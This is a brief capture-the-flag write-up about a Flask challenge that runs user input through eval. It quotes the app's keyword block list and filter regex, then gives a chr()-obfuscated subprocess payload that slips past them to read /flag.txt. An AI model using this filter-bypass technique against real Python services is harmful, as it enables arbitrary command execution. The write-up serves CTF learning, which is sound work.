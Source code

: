 # 1. Analysis
![](Pasted%20image%2020250522092228.png)

interesting comments
```

TODO
------------
Secure python_flask eval execution by 

1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind

2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'

```

if we input malicious keyword, the server will banned
![](Pasted%20image%2020250522101257.png)

base on that comment, we have to craft a payload that bypassed that rules

lets use chatgpt to get explanation of that regex
![](Pasted%20image%2020250522104243.png)
example
![](Pasted%20image%2020250522104347.png)

It means we need to use functions other than `os`, `eval`, `exec`, `bind`, `connect`, `python`, `socket`, `ls`, `cat`, and `shell`, and we should also use obfuscation techniques not covered by the patterns in that regex.
# 2. Exploitation
after surf on the internet, i found alternative function like
```
import(‘subprocess’)
check_output() using getattr()
obfuscate using chr()
```

this is the final payload
```
from this..
getattr(__import__('subprocess'), 'check_output')(['cat', '/flag.txt']) 


to be..
getattr(__import__('subprocess'), 'check_output')([chr(99)+chr(97)+chr(116), chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)])
```

![](Pasted%20image%2020250522103734.png)
# 3. Conclussion
Hurray! You solved this challenge.

Knowledge need to know:
- Obfuscation
- Flask alternative function

Reference:
https://medium.com/@mihasha/3v-l-write-up-picoctf-2025-d84e30c039cf